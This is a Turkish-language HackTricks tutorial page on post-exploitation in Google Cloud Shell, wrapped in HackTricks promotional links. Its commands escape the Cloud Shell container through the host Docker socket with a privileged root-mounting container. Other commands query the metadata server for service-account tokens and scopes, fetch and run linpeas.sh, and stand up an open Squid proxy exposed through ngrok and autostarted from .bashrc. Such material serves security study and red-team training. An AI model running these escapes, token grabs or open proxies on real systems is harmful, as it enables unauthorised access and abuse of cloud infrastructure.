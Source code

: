 # GCP - Bulut Kabuğu Sonrası Sömürü

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin</strong>!</summary>

HackTricks'i desteklemenin diğer yolları:

- **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na(https://github.com/sponsors/carlospolop) göz atın!
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
- 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
- **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
- &#x20;github depoları.

</details>

## Bulut Kabuğu

Bulut Kabuğu hakkında daha fazla bilgi için şuraya bakın:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Konteyner Kaçışı

Google Cloud Shell'in bir konteyner içinde çalıştığını unutmayın, **kolayca ana bilgisayara kaçabilirsiniz** yaparak: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Google tarafından bir zayıflık olarak kabul edilmiyor, ancak bu ortamda neler olduğuna dair daha geniş bir görüş sağlar.

Ayrıca, ana makineden bir hizmet hesabı belirteci bulabileceğinizi unutmayın:
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Aşağıdaki kapsamlarla:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

LinPEAS ile metadata'yı numaralandırın:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) kullanarak Servis Hesabı token'ı ile **izin bulunamadı**...

### Proxy Olarak Kullanma

Google Cloud Shell örneğinizi bir proxy olarak kullanmak istiyorsanız aşağıdaki komutları çalıştırmanız gerekmektedir (veya .bashrc dosyasına ekleyin):
```bash
sudo apt install -y squid
```
Sadece bilmeniz için Squid bir http proxy sunucusudur. Aşağıdaki ayarlarla bir **squid.conf** dosyası oluşturun:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf** dosyasını **/etc/squid** dizinine kopyalayın.
```bash
sudo cp squid.conf /etc/squid
```
Son olarak squid servisini çalıştırın:
```bash
sudo service squid start
```
Dışarıdan proxy'nin erişilebilir olmasını sağlamak için ngrok'u kullanın:
```bash
./ngrok tcp 3128
```
Kopyalama işleminden sonra tcp:// URL'sini yapıştırın. Proxy'yi bir tarayıcıdan çalıştırmak istiyorsanız, tcp:// kısmını ve bağlantı noktasını kaldırmanız ve bağlantı noktasını tarayıcı proxy ayarlarının bağlantı noktası alanına koymak önerilir (squid bir http proxy sunucusudur).

Başlangıçta daha iyi kullanım için .bashrc dosyasında aşağıdaki satırlar olmalıdır:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Yönergeler [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) adresinden kopyalandı. Diğer çılgın fikirler için o sayfaya bakın ve her türlü yazılımı (veritabanları hatta windows'u bile) Cloud Shell'de çalıştırma konusunda fikir edinin.

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* Hacking püf noktalarını paylaşarak PR'lar göndererek [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
